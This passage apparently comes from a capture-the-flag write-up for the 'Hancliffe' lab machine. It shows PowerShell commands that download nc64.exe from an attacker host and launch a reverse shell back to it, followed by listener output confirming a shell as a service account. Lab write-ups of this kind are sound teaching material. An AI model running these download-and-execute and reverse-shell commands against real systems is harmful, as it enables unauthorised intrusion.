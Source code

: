![image*](/img/hancliffe-rce-poc-ping.gif)

(It is a bit odd that there are only four pings in that GIF... the
default for Windows is typically five.)

### Shell

I tried a handful of things that didn't work to get a reverse shell. I
eventually settled on uploading `nc` using
`powershell -c curl 10.10.14.6/nc64.exe -outfile \programdata\nc64.exe`,
and then triggering it with
`powershell -c \programdata\nc64.exe -e powershell 10.10.14.6 443`:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.115 54865
      
    PS C:\Nuxeo> whoami
    hancliffe\svc_account


